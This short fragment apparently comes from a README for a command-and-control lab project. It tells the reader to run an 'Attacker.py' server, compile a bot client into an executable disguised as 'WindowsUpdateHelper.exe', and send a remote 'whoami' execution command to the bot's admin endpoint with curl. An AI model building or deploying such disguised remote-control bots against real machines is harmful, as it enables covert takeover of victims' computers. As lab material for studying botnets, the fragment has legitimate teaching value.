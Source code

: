 - On your Analysis VM, run the server: python Attacker.py.

- On your Analysis VM, compile the Bot.py into an EXE:
```bash
    pip install pyinstaller
    pyinstaller --onefile --windowed --name "WindowsUpdateHelper.exe" bot_client.py
```

- From your Analysis VM, send a command using curl or a browser

```bash
#'whoami' command
curl -X POST http://192.168.56.101:5000/admin/command -H "Content-Type: application/json" -d "{\"command\": \"execute\", \"data\": \"whoami\"}"
```
